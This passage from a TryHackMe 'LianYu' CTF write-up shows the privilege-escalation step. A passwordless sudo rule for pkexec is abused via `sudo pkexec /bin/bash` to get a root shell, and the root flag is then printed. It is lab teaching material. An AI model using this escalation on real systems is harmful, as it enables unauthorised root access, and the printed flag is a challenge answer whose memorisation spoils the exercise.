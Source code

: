 We can execute `pkexec` as root without password, which is an obvious way to leverage our privileges. Let's check at [GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/) what we can do with this executable:

~~~
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/bash
root@LianYu:~# whoami
root
root@LianYu:~# cat /root/root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 

THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
~~~

Root flag: `THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`
